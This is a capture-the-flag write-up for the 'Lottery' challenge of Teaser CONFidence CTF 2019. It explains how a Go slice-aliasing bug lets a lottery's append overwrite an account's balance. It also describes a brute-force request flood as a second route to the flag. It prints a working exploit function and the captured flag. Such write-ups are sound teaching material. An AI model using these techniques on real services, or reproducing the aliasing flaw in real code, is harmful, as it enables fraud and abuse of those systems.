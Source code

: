 # The Lottery

The **last solved** challenge at 'Teaser CONFidence CTF 2019'.

## Logic

The challenge is a REST API written in Go. It has a functionality of choosing
a lottery winner along with the accounts *management*.

### Package `app`

Account:
```go
type Account struct {
	Name    string `json:"name"`
	Amounts []int  `json:"amounts"`
}
```

Basically, we may do two things with the account:
 - `Account.AddAmount(50)` adds provided amount (must be wihtin `0-99`),
        also total number of amounts must be less than 5,
 - `Service.LotteryAdd(account)` signs user up to the lottery.

You have two options to get a flag - your account must:
 1. Be a millionaire (sum of amounts > 1,000,000),
 2. Be a lottery's winner.

### Package `transport`

There is implementation of HTTP handlers and routing. All we need to know is:
flag is served with the account of millionaire or lottery winner.

## Vulnerabilities

Let's take a look how exactly `lottery` works.

When we invoke `Service.LotteryAdd` method it passes the copy of `account`
object to lottery. It means we have the same object (literally bytes) in two
places: `lottery` (copy) and `service` (original).


The next step: `lottery.evaluate` loops over previously copied accounts and does:
```go
amounts := append(account.Amounts, randInt(999913, 3700000))
```

Pretty cool. It adds a really big number (~1m) to `account.Amounts`. If only it
could be saved at the 'original' account too...

Then it checks if total sum of amounts and our random number is equal to
`1259264`.

### Solution 1 (brute force)

Regardless of added amounts to account, we have only one value that wins the
lottery (in range `999913-3700000`).

```python
>>> 3700000 - 999913
2700087
```

Theoretically, to get a flag you may just create accounts and after
`LOTTERY_PERIOD` duration check if this user is a lottery winner.

For each try we must do three HTTP requests:
 1. Create an account,
 2. Add account to lottery,
 3. After `LOTTERY_PERIOD` duration check if the account is a winner.

 Let's do a quick math:
```python
>>> 2700087*3        # total number of requests
8100261
>>> 8100261 / 2500   # divide by 2500 rps (are you capable of doing more?)
3240.1044
>>> 3240.1044 / 3600 # how many hours? 
0.90
```

As you can see, it was possible to get a flag within one hour! It wasn't
intended solution, but probably some teams managed to use it.
Congratulations though.

### Solution 2 (go slices)

Let's go back to previously noticed amounts `append` with a big number.
So, how exactly does it work?

We append an `Account`'s attribute which is a `[]int` slice. 
```go
type Account struct {
	Amounts []int // This is a []int slice.
}
```
However, what's a slice? (Worth reading: https://blog.golang.org/go-slices-usage-and-internals)

Definition of slice:
> A slice is a descriptor of an array segment. It consists of a pointer to the
> array, the length of the segment, and its capacity (the maximum length of
> the segment).

![Slice visualization](images/go-slices-usage-and-internals_slice-struct.png)

In fact, a slice is a pointer to the memory and not the memory itself! It means
we are able to write to the *original* `amounts` memory at the lottery.
However, slice is kind of like the `vector` in C++. If you will append the
element over the available capacity, it will reallocate itself to the another
bigger memory chunk. Therefore we must ensure, reallocation won't happen.

Anyway, here is the code:
```go
func HackLottery() {
  // Create new service.
  s := NewService(context.Background(), time.Millisecond, time.Minute)

  // Add new account.
  a, _ := s.AccountAdd()

  // Add '90' amount three times.
  s.AccountAddAmount(a.Name, 90)
  s.AccountAddAmount(a.Name, 90)
  s.AccountAddAmount(a.Name, 90)

  // Right now we have a slice with three values [90, 90, 90]
  // Do you know what's the capacity and length of it?
  // Length=3, Capacity=4.
  // It means that after the next 'append' we won't reallocate to the new memory.

  // We would like to extend our original slice to length=4 and then wait for
  // the lottery's append to overwrite the last item.

  // Add account to the 'Lottery'.
  s.LotteryAdd(a.Name)
  // Immediately after extend 'amounts' slice.
  s.AccountAddAmount(a.Name, 90)

  // 'Lottery.evaluate' should overwrite the last element in the original amounts.
  s.lottery.evaluate()

  // Does it work?
  a, _, _ = s.AccountGet(a.Name)
  fmt.Printf("%v\n", a.Amounts)
  // [90 90 90 1723342]
  // Yay, you are a millionaire.
}
```

## Flag

```sh
$ python hack.py       
p4{fucking-go-slices.com}
```

